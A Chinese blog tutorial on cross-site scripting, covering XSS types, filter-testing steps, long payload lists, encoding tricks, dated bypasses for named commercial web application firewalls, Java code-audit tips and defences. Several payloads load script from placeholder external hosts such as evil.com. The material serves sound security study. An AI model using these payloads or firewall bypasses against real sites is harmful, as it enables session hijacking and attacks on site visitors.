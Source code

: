 # XSS漏洞


> 由于时间和篇幅，只做浅析，往后时间充裕了再细细研究



## 简介

XSS（cross site scripting）跨站脚本为了不与网页中层叠样式表（css）混淆，故命名为xss。黑客将恶意代码嵌入网页中，当客户网文网页的时候，网页中的脚本会自动执行，从而达成黑客攻击的目的。



## 分类

### 1.反射型xss

非持久化，一般需要欺骗客户去点击构造好的链接才能触发代码。



### 2.存储型XSS

他会存储到数据库中，这种xss漏洞危害极大，因为它可以长久的保存在网页中，每个浏览过此网页的用户都会中招，很多xss蠕虫的爆发都是基于持久型xss，一般在留言板，评论区类位置容易出现此漏洞。但存储型XSS不用考虑绕过浏览器的过滤问题，屏蔽性也要好很多。

![存储型XSS攻击流程](http://image.xpshuai.cn/img/image-20220118223432836.png)



### 3.DOM型XSS

全称Document Object Model，使用DOM可以使程序和脚本能够动态访问更新文档的内容，结构及样式。
DOM型XSS是一种特殊类型的反射型XSS，基于DOM文档对象模型的一种漏洞。







## 挖掘

**XSS可以插在哪里？** 

用户输入作为script标签内容

```java
//<script>标签：script是最有直接的xss攻击载荷，脚本标记可以应用外部的js代码，或者将脚本插入网页之中。

<script>alert("hhh")</script>

<script src="http://1.1.1.1/a.js"></script>
```



用户输入作为HTML注释内容



用户输入作为HTML标签的属性名



用户输入作为HTML标签的属性值

```javascript
//<img >标签：

<img src="2" onerror=alert('hhh')>
<img src="2" onerror=alert(/hhh/)>
<img src="javascript:alert("XSS");">
<img dynsrc="javascript:alert('XSS')">
<img lowsrc="javascript:alert('XSS')">
　　
    
//<table>标签：
<table background="javascript::alert('hhh')">

    
//<iframe>标签：<iframe>标签允许另一个HTML网页的嵌入到父页面。IFrame可以包含JavaScript，但是，请注意，由于浏览器的内容安全策略（CSP），iFrame中的JavaScript无法访问父页面的DOM。然而，IFrame仍然是非常有效的解除网络钓鱼攻击的手段。

<iframe src=”http://evil.com/xss.html”>
```



用户输入作为HTML标签的名字



直接插入到CSS里　





### 测试思路

下面让我们来看一下XSS绕过的测试流程。

现实中，大多数的场所是用的黑名单来做XSS过滤器的，有三种方式绕过黑名单的测试：

1.暴力测试（输入大量的payload，看返回结果）
2.根据正则推算
3.利用浏览器bug
初步测试

（1）尝试插入比较正常的HTML标签，例如：`<a>、<b>、<i>、<u>`等，来看一下返回页面的情况是怎样的，是否被HTML编码了，或者标签被过滤了。

（2）尝试插入不闭合的标签，例如：<a、<b、i>、u>、<img等，然后看一下返回响应，是否对开放的标签也有过滤。

（3）然后测试几种常见的XSS向量：

```
<script>alert(1)</script><script>prompt(1)</script><script>confirm(1)</script>......看返回响应，是过滤的全部，还是只过滤了部分，是否还留下了alert、prompt、confirm等字符，再尝试大小写的组合：
<scRiPt>alert(1);</scrIPt>

```



（4）如果过滤器仅仅是把`<script>`和`</script>`标签过滤掉，那么可以用双写的方式来绕过：

```bash
<scr<script>ipt>alert(1)</scr<script>ipt>
```

这样当<script>标签被过滤掉后，剩下的组合起来刚好形成一个完整的向量。

（5）用<ahref标签来测试，看返回响应

```bash
<ahref="http://www.baidu.com">click</a>

```



看看<a标签是否被过滤，href是否被过滤，href里的数据是否被过滤了。如果没有数据被过滤，插入javascript伪协议看看：

```bash
<ahref="javascript:alert(1)">click</a>
```

看是否返回错误，javascript的整个协议内容是否都被过滤掉，还是只过滤了javascript字符。

继续测试事件触发执行javascript：

```bash
<ahref=xonmouseover=alert(1)>ClickHere</a>

```

看onmouseover事件是否被过滤。

测试一个无效的事件，看看他的过滤规则：

```bash
<ahref=xonclimbatree=alert(1)>ClickHere</a>

```

是完整的返回了呢，还是跟onmouseover一样被干掉了。如果是完整的返回的话，那么就意味着，做了事件的黑名单，但是在HTML5中，有超过150种的方式来执行javascript代码的事件，我们可以选用别的事件。测试一个很少见的事件：

```bash
<bodyonhashchange=alert(1)><ahref=#>click</a>

```

onhashchange事件在当前URL的锚部分(以'#'号为开始)发生改变时触发。





### 常用Payload

```bash
#Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>

#Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

#Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)


#HTML5中的一些XSS
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // 当手指触摸屏幕时触发
<body ontouchend=alert(1)>   // 当手指从屏幕中移走时触发
<body ontouchmove=alert(1)>  // 当手指在屏幕中拖动时触发XSS使用Script标签（外部Payload）
```







scirpt标签用于定义客户端脚本，比如JavaScript

```

<script>alert(1);</script>

<script>alert("xss");</script>
```



img标签定义HTML页面中的图像

```
<img src=1onerror=alert(1);>

<img src=1onerror=alert("xss");>
```



input标签规定了用户可以在其中输入数据的输入字段

```
<input onfocus=alert(1);>
 onfocus="alert(1);"autofocus>
```


details标签通过提供用户开启关闭的交互式控件，规定了用户可见的或者隐藏的需求的补充细节。ontoggle事件规定了在用户打开或关闭<details>元素时触发：

```
<details ontoggle=alert(1);>

<details openontoggle=alert(1);>
```




svg标签用来在HTML页面中直接嵌入SVG文件的代码

```
<svg onload=alert(1);>
```




select标签用来创建下拉列表

```
<select onfocus=alert(1)></select>

<select onfocus=alert(1)autofocus>
```




iframe标签创建包含另外一个文档的内联框架

```
<iframe onload=alert(1);></iframe>
```




video标签定义视频，比如电影片段或其他视频流。

```
<video><source onerror=alert(1)>
```




audio标签定义声音，比如音乐或其他音频流。

```
<audio src=xonerror=alert(1);>
```




body标签定义文档的主体

```
<body onload=alert(1);>
```



onscroll事件在元素滚动条在滚动时触发。我们可以利用换行符以及autofocus，当用户滑动滚动条的时候自动触发，无需用户去点击触发：

```
<body
onscroll=alert(1);><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><inputautofocus>
```




textarea标签定义一个多行的文本输入控件。

```
<textarea onfocus=alert(1);autofocus>
```



 

marquee标签

```
<marquee onstart=alert(1)></marquee>//Chrome不行，火狐和IE都可以

```

isindex标签

```
<isindex type=image src=1onerror=alert(1)>//仅限于IE
```

利用link远程包含JavaScript文件

<link>标签定义文档与外部资源的关系。在无CSP的情况下才可以使用：

```
<link rel=import href="http://47.xxx.xxx.72/evil.js">
```




利用JavaScript伪协议

javascript:这个特殊的协议类型声明了URL的主体是任意的javascript代码，它由javascript的解释器运行。当浏览器装载了这样的URL时，并不会转向某个URL，而是执行这个URL中包含的javascript代码，并把最后一条javascript语句的字符串值作为新文档的内容显示出来。

a标签

```
<a href="javascript:alert(1);">xss</a>
```



iframe标签

```
<iframe src=javascript:alert(1);></iframe>
```

img标签

```
<img src=xonerror=alert(1)>

<img src=javascript:alert(1)>//IE7以下
```

form标签

```
<form action="Javascript:alert(1)"><input type=submit>
```







### 常见编码

**1.js编码**
js提供了四种字符编码的策略
三位八进制数字，如果个数不够，在前面补0，例如"e"的编码为"\145"
两位十六进制数字，如果个数不够，在前面补0，例如"e"的编码为"\x65"
四位十六进制数字，如果个数不够，在前面补0，例如"e"的编码为"\u0065"
对于一些控制字符，使用特殊的C类型的转义风格(例如\n和\r)

**2.html实体编码**
命名实体：以&开头，以分号结尾
字符编码：十进制，十六进制ASCII码或者Unicode字符编码

**2.url编码**

使用XSS编码测试时需要考虑html渲染的顺序，针对多种编码的组合时，要选择合适的编码进行测试





### 常见bypass

> 可以参考法克论坛的pdf

#### 过滤的绕过

```javascript
大小写绕过
	- 绕过标签黑名单
	- 用代码评估绕过单词黑名单
	- 不完整的HTML标签绕过
	- 绕过字符串的引号
	- 绕过Script标签的引号
	- 在mousedown事件中绕过引号
	- 绕过点（.）的限制
	- 绕过字符串的括号
	- 绕过括号和分号
	- 绕过 onxxxx= 黑名单
	- 绕过空格过滤
	- Bypass email filter
	- 绕过文档黑名单
	- 在字符串中使用javascript绕过
	- 使用其他方式绕过重定向限制
	- 使用其他方式执行alert
	- 不使用任何东西绕过 ">"
	- 使用其他字符绕过 ";"
	- 使用HTML编码绕过
	- 使用Katana绕过
	- 使用Lontara绕过
	- 使用ECMAScript6绕过
	- 使用八进制编码绕过
	- 使用Unicode编码绕过
	- 使用UTF-7编码绕过
	- 使用UTF-8编码绕过
	- 使用UTF-16be编码绕过
	- 使用UTF-32编码绕过
	- 使用BOM（浏览器对象模型）绕过
	- 使用奇怪的编码绕过
```



#### 过狗

> 发现了个好资源，直接借鉴的，推荐去学学
>
> https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

Cloudflare XSS Bypasses

25st January 2021

```
<svg/onrandom=random onload=confirm(1)>
<video onnull=null onmouseover=confirm(1)>
```

21st April 2020

```
<svg/OnLoad="`${prompt``}`">
```

22nd August 2019

```
<svg/onload=%26nbsp;alert`bohdan`+
```

5th June 2019

```
1'"><img/src/onerror=.1|alert``>
```

3rd June 2019

```
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
```

Cloudflare XSS Bypass - 22nd March 2019 (by @RakeshMane10)

```
<svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
```

Cloudflare XSS Bypass - 27th February 2018

```
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```

Chrome Auditor - 9th August 2018

```
</script><svg><script>alert(1)-%26apos%3B
```

Live example by @brutelogic - [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?c1=alert(1)-%26apos%3B)

Incapsula WAF Bypass by [@Alra3ees](https://twitter.com/Alra3ees/status/971847839931338752)- 8th March 2018

```
anythinglr00</script><script>alert(document.domain)</script>uxldz

anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
```

Incapsula WAF Bypass by [@c0d3G33k](https://twitter.com/c0d3G33k) - 11th September 2018

```
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
```

Incapsula WAF Bypass by [@daveysec](https://twitter.com/daveysec/status/1126999990658670593) - 11th May 2019

```
<svg onload\r\n=$.globalEval("al"+"ert()");>
```

Akamai WAF Bypass by [@zseano](https://twitter.com/zseano) - 18th June 2018

```
?"></script><base%20c%3D=href%3Dhttps:\mysite>
```

Akamai WAF Bypass by [@s0md3v](https://twitter.com/s0md3v/status/1056447131362324480) - 28th October 2018

```
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
```

WordFence WAF Bypass by [@brutelogic](https://twitter.com/brutelogic) - 12th September 2018

```
<a href=javas&#99;ript:alert(1)>
```

Fortiweb WAF Bypass by [@rezaduty](https://twitter.com/rezaduty) - 9th July 2019

```
\u003e\u003c\u0068\u0031 onclick=alert('1')\u003e
```





### 练习平台

靶场：xss-labs





### 工具

- xss平台
- beef



## Java代码审计

一种审计策略：

1.收集输入、输出点

2.查看输入、输出点的上下文环境

3.判断Web应用是否对输入、输出环境做了防御工作





### XSS常见触发位置

**输入**在Java中常用`request.getParameter(param)`或`${param}`获取用户的输入信息；

**输出**主要表现为前端的渲染，我们可以定位前端中的一些常见的标识符来找到他们，然后根据后端逻辑来判断漏洞是否存在。

**1.JSP表达式**

`<%=变量%>`是`<%out.println(变量);%>`的简写方式，`<%=%>`用于将已声明的变量或表达式输出到外网页中

```jsp

```



**2.EL（表达式语言）**

是为了使jsp写起来更加简单。

例如：`<%=request.getParameter("username")%>`等价于`${param.username}`

```jsp
<c:out> 标签
    
<c:if> 标签
    
<c:forEach> 标签
```



**3.ModelAndView类的使用**

ModelAndView用来存储处理完成后的结果数据，以及显示该数据的视图，其前端JSP页面可以使用`${参数}`的方法来获取值



**4.ModelMap类的使用**

可以根据模型属性的具体类型自动生成模型属性的名称



**5.Model类的使用**





### 对于反射型XSS

白盒审计中，需要寻找带有参数的输出方法，然后对输出方法对输出内容回溯输入参数





### 对于存储型XSS

要统一寻找“输出点”和“输出点”。由于输出点与输入点可能不在一个业务流中，可以考虑以下方法提高效率：

1.黑白盒结合

2.通过功能、接口名、表名、字段名等角度做搜索



寻找输入点

审计输入点代码

对输出点进行审计





### 对于Dom型XSS

dom型xss不需要与服务器交互，它只发生在客户端处理数据阶段。

粗略说，Dom型xss的成因是不可控的危险数据，未经过滤传入存在缺陷的js代码处理。



**Dom型XSS常见的输入输出点：**

| 输入点            | 输出点             |
| ----------------- | ------------------ |
| document.URL      | eval               |
| document.location | document.write     |
| document.referer  | document.InnerHTML |
| document.form     | document.OuterHTML |
|                   |                    |







### 关键字

```bash
<%=
${
<c:out
<c:if
<c:forEach
ModelAndView
ModelMap
Model
request.getParameter
request.setAttibute
request.getWriter().print()
request.getWriter().writer()

```









## 漏洞防御

- 对与后端有交互的位置执行参数的输入过滤（课通过Java的filter、Spring参数校验注解来实现。比如编写全局过滤器实现拦截并在web.xml中进行配置）
- 对与后端有交互的位置执行参数的输出转义/html编码等
- 开启JS开发框架的XSS防护功能
- 设置HttpOnly（严格的说，HttpOnly对防御XSS不起作用，主要是为了解决xss漏洞后续的cookie劫持攻击，可以阻止客户端脚本访问cookie）
- 采用OWASP企业安全程序接口(ESAPI)实现，类似内容还有谷歌的xssProtect等





## 参考

https://www.cnblogs.com/xyz315/p/14850359.html

https://cloud.tencent.com/developer/article/1474865

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-wrappers-javascript-and-data-uri





未完待续...


---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/xss%E6%BC%8F%E6%B4%9E/  

